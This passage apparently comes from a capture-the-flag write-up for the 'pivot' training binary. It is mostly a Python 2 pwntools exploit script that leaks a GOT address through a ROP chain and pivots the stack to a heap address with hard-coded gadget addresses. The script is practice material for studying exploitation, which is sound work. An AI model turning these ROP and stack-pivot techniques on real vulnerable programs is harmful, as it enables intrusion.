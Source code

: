 We can use the `foothold_function` and the `puts` entries in the PLT, along with the address of the `foothold_function` GOT entry:

```python
from pwn import *
import re

l = process("./pivot")

pop_rax = p64(0x00400b00) # pop rax; ret
pop_rdi = p64(0x00400b73) # pop rdi; ret

xchg_rax_rsp = p64(0x00400b02) # xchg rax, rsp; ret

mov_rax_rax = p64(0x00400b05) # mov rax, qword [rax]; ret

add_rax_rbp = p64(0x00400b09) # add rax, rbp; ret

foothold_function = p64(0x00400850) # The PLT address, because the address in the pwnme function contains a 0x0a (newline)

puts = p64(0x00400800)

foothold_got = p64(0x602048)

message1 = l.recvuntil("> ")
print message1
r = r'pivot: (.*)$'
heap_addr = p64(int(re.search(r, message1, re.MULTILINE).group(1), 16))

print "Found heap_addr: ", heap_addr

payload1 = foothold_function
payload1 += pop_rdi
payload1 += foothold_got
payload1 += puts

print "Sending payload1: ", payload1.encode("hex")
l.sendline(payload1)

print l.recvuntil("> ")

payload2 = "A" * 0x28
payload2 += pop_rax
payload2 += heap_addr
payload2 += xchg_rax_rsp

print "Sending payload2: ", payload2.encode("hex")
l.sendline(payload2)

print l.clean()
```

